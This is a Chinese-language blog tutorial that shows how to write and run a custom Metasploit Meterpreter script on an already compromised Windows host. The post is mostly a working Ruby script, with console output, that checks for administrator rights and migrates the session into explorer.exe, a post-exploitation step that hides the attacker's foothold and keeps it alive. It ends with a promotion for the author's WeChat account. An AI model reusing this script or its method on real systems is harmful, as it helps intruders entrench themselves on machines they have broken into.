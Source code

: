 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit制作并运行自定义Meterpreper脚本
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit制作并运行自定义Meterpreper脚本
lock: need
---
```


# Metasploit制作并运行自定义Meterpreper脚本

注意：运行此脚本的前提是我们已经经过一系列的渗透，成功拿下了Meterpreter命令行。

这个脚本将会检查我们当前用户是否为管理员用户，然后找到explorer.exe进程，并自动迁移到这个进程中。

具体脚本mymet.rb如下：

```
##
# Author 冰河
# Date 2019-01-14
# Description Meterpreter脚本实例，检查 我们当前是否为管理员用户，然后找到exeplorer进程，并自动迁移到这个进程中
##
admin_check=is_admin?
if(admin_check)
  print_good("Current User Is Admin")
else
  print_error("Current User Is Not Admin")
end

session.sys.process.get_processes().each do |x|
  if x['name'].downcase == "explorer.exe"
    print_good("Explorer.exe Process is Running with PID #{x['pid']}")
    explorer_ppid = x['pid'].to_i
    print_good("Migrating to Exeplorer.exe at PID #{explorer_ppid.to_s}")
    session.core.migrate(explorer_ppid)
  end
end
```

接下来，我们将脚本mymet.rb上传到Kali的/usr/share/metasploit-framework/scripts/meterpreter目录下。

首先，我们现在Meterpreter上执行如下命令：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
meterpreter > getpid
Current pid: 684
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
2208  2168  explorer.exe       x64   1        liuyazhuang-PC\liuyazhuang    C:\Windows\explorer.exe
```

可以看到当前的用户是管理员权限，当前session绑定的进程ID是684，explorer进程ID为2208

接下来我们在Meterpreter命令行下运行如下命令：

```
run myset
```

输出如下：

```
meterpreter > run mymet 
[+] Current User Is Admin
[+] Explorer.exe Process is Running with PID 2208
[+] Migrating to Exeplorer.exe at PID 2208
```

如下：

![img](https://img-blog.csdnimg.cn/20190115160713658.png)

可以看到，命令成功运行

此时我们再次查看当前session绑定的PID

```
meterpreter > getpid
Current pid: 2208
```

可以看到当前session已经绑定到explorer.exe进程了。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)